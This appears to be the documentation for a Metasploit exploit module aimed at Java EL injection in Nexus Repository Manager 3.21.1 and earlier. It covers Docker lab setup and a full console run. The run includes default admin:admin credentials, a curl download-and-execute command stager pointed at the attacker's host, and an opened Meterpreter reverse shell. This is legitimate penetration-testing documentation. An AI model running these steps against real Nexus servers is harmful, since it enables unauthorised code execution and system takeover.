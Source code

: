 ## Vulnerable Application

### Description

This module exploits a Java Expression Language (EL) injection in Nexus
Repository Manager versions up to and including 3.21.1 to execute code
as the "nexus" user.

### Setup

Run `docker run -d -p 8081:8081 --name nexus sonatype/nexus3:3.21.0`
(note the added `3.21.0` tag) as per Sonatype's [Docker Hub instructions](https://hub.docker.com/r/sonatype/nexus3/#running).

### Targets

```
Id  Name
--  ----
0   Nexus Repository Manager <= 3.21.1
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME

Set this to a valid Nexus username.

### PASSWORD

Set this to a valid Nexus password.

## Scenarios

### Nexus Repository Manager 3.21.1-05 from [Docker Hub](https://hub.docker.com/r/sonatype/nexus3)

```
msf5 > use exploit/linux/http/nexus_repo_manager_el_injection
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > show missing

Module options (exploit/linux/http/nexus_repo_manager_el_injection):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Nexus 3.21.0-05 is a vulnerable version.
[*] Logging in with admin:admin
[+] Logged in with NXSESSIONID=b15d9cfc-f8ad-4aba-b203-c36aa78e4670;
[*] Using URL: http://0.0.0.0:8080/SjSMKKomKhhGj
[*] Local IP: http://192.168.1.3:8080/SjSMKKomKhhGj
[*] Generated command stager: ["curl -so /tmp/dXZVXFXS http://192.168.1.3:8080/SjSMKKomKhhGj", "chmod +x /tmp/dXZVXFXS", "/tmp/dXZVXFXS", "rm -f /tmp/dXZVXFXS"]
[*] Executing command: curl -so /tmp/dXZVXFXS http://192.168.1.3:8080/SjSMKKomKhhGj
[*] Client 192.168.1.3 (curl/7.61.1) requested /SjSMKKomKhhGj
[*] Sending payload to 192.168.1.3 (curl/7.61.1)
[+] Successfully executed command: curl -so /tmp/dXZVXFXS http://192.168.1.3:8080/SjSMKKomKhhGj
[*] Command Stager progress -  52.63% done (60/114 bytes)
[*] Executing command: chmod +x /tmp/dXZVXFXS
[+] Successfully executed command: chmod +x /tmp/dXZVXFXS
[*] Command Stager progress -  71.93% done (82/114 bytes)
[*] Executing command: /tmp/dXZVXFXS
[+] Successfully executed command: /tmp/dXZVXFXS
[*] Command Stager progress -  83.33% done (95/114 bytes)
[*] Executing command: rm -f /tmp/dXZVXFXS
[+] Successfully executed command: rm -f /tmp/dXZVXFXS
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:62404) at 2020-04-04 00:39:23 -0500
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 5c29594842aa (uid=200, gid=200, euid=200, egid=200)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
